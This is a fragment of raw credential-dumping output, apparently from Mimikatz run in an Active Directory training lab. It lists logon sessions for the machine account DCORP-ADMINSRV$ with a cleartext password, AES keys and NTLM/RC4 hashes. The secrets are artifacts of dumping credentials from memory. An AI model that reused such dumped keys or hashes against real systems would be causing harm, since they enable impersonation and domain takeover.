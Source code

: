 ```powershell
           rc4_hmac_old      d549831a955fee51a43c83efb3928fa7
           rc4_md4           d549831a955fee51a43c83efb3928fa7
           rc4_hmac_nt_exp   d549831a955fee51a43c83efb3928fa7
           rc4_hmac_old_exp  d549831a955fee51a43c83efb3928fa7
           Authentication Id : 0 ; 22574 (00000000:0000582e)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 1/10/2025 9:28:35 AM
SID               : S-1-5-96-0-0

         * Username : DCORP-ADMINSRV$
         * Domain   : dollarcorp.moneycorp.local
         * Password : Q:hFT'!FUXP6E_2)CK dxm2vl*'N>a;z-NIMogeiBtHMtjgw@,Lx:YD.="5G[e  Y+wN@^44>IT@sd^DxQ4HWRY6%208?lTEbU`u.H0d%zYIW/d@QaT7Ztd'
         * Key List :
           aes256_hmac       82ecf869176628379da0ae884b582c36fc2215ef7e8e3e849d720847299257ff
           aes128_hmac       3f3532b2260c2851bf57e8b5573f7593
           rc4_hmac_nt       b5f451985fd34d58d5120816d31b5565
           rc4_hmac_old      b5f451985fd34d58d5120816d31b5565
           rc4_md4           b5f451985fd34d58d5120816d31b5565
           rc4_hmac_nt_exp   b5f451985fd34d58d5120816d31b5565
           rc4_hmac_old_exp  b5f451985fd34d58d5120816d31b5565

Authentication Id : 0 ; 22546 (00000000:00005812)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 1/10/2025 9:28:35 AM
SID               : S-1-5-96-0-1

         * Username : DCORP-ADMINSRV$
         * Domain   : dollarcorp.moneycorp.local
         * Password : Q:hFT'!FUXP6E_2)CK dxm2vl*'N>a;z-NIMogeiBtHMtjgw@,Lx:YD.="5G[e  Y+wN@^44>IT@sd^DxQ4HWRY6%208?lTEbU`u.H0d%zYIW/d@QaT7Ztd'
         * Key List :
           aes256_hmac       82ecf869176628379da0ae884b582c36fc2215ef7e8e3e849d720847299257ff
           aes128_hmac       3f3532b2260c2851bf57e8b5573f7593
           rc4_hmac_nt       b5f451985fd34d58d5120816d31b5565
           rc4_hmac_old      b5f451985fd34d58d5120816d31b5565
           rc4_md4           b5f451985fd34d58d5120816d31b5565
           rc4_hmac_nt_exp   b5f451985fd34d58d5120816d31b5565
           rc4_hmac_old_exp  b5f451985fd34d58d5120816d31b5565

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : DCORP-ADMINSRV$
Domain            : dcorp
Logon Server      : (null)
Logon Time        : 1/10/2025 9:28:34 AM
SID               : S-1-5-18

         * Username : dcorp-adminsrv$
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       e9513a0ac270264bb12fb3b3ff37d7244877d269a97c7b3ebc3f6f78c382eb51
           rc4_hmac_nt       b5f451985fd34d58d5120816d31b5565
           rc4_hmac_old      b5f451985fd34d58d5120816d31b5565
           rc4_md4           b5f451985fd34d58d5120816d31b5565
           rc4_hmac_nt_exp   b5f451985fd34d58d5120816d31b5565
```